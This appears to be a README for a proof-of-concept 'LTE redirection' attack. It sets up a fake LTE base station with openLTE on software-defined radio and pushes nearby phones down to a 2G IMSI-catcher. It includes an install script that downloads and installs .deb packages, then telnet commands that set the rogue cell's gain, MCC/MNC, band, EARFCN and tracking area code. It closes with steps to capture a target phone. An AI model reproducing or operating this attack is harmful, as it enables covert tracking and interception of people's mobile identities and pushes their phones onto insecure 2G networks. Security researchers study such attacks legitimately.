 # openlte_redirection_quickinstall
* Installation
Follow this readme :  
https://github.com/bbaranoff/openLTE2GSM/


```
git clone https://github.com/bbaranoff/openLTE2GSM/
```
```
sudo chmod +x install.sh
```
```
sudo ./install.sh
```

The bash script is :  
sudo apt update  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/uhd_20211230-1_amd64.deb  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/soapysdr_20211230-1_amd64.deb  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/bladerf_20211230-1_amd64.deb  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/soapybladerf_20211230-1_amd64.deb  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/soapyuhd_20211230-1_amd64.deb  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/gnuradio_20211230-1_amd64.deb  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/gr-osmosdr_20211230-1_amd64.deb  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/polarssl_20211230-1_amd64.deb  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/openlte_20211230-1_amd64.deb  
dpkg -i *.deb  
export LD_LIBRARY_PATH=/usr/local/lib/  
sudo ldconfig  
sudo apt install libboost-date-time1.67.0 libboost-filesystem1.67.0 libboost-regex1.67.0 libboost-serialization1.67.0 libboost-serialization1.67.0  
echo "Done !!!!"


# OTHER INSTALLATION :  

```
sudo apt install libboost-program-options1.67.0 libboost-thread1.67.0 libusb-1.0-0 usbutils python-is-python3 python3-requests  
```
```
sudo apt install libfftw3-3
```

* Installing 2G IMSI-Catcher with ARFCN 514
Then build 2G IMSI-Catcher  
Build IMSI-catcher  

* Testing the attack
Running  
Phone in 2G/3G/4G mode  
This article is in progress and is just a PoC  
The attack step are run the IMSI-catcher into arfcn 514 follow (see Build IMSI-catcher)  
run the 4G redirector as follow  
  
# Shell #1  
```
LTE_fdd_enodeb
```

# Shell #2  
```
telnet localhost 30000  
```
```
write rx_gain 30  
```
```
write tx_gain 80  
```
```
write mcc 215  
```
```
write mnc 15  
```
```
write band 7  
```
```
write dl_earfcn 3350  
```
```
write tracking_area_code 6604   
```

(change with your ue values be careful that the earfcn is in the band)  
  
Then switch the phone in airplane mode and in  localhost:30000 (Shell #2) :  
```
start  
```

wait… and when you have “ok” answer in shell #2 remove airplane mode and … enjoy !

* Video explaining :  
**https://www.youtube.com/watch?v=CL4THUyUSDc&t=34s&pp=ygUhbHRlIHJlZGlyZWN0aW9uIGJhc3RpZW4gYmFyYW5vZmYg  
**https://www.youtube.com/shorts/j5cs28u4DAo  
**https://www.youtube.com/watch?v=GmPN6CblvaQ&pp=ygUhbHRlIHJlZGlyZWN0aW9uIGJhc3RpZW4gYmFyYW5vZmYg
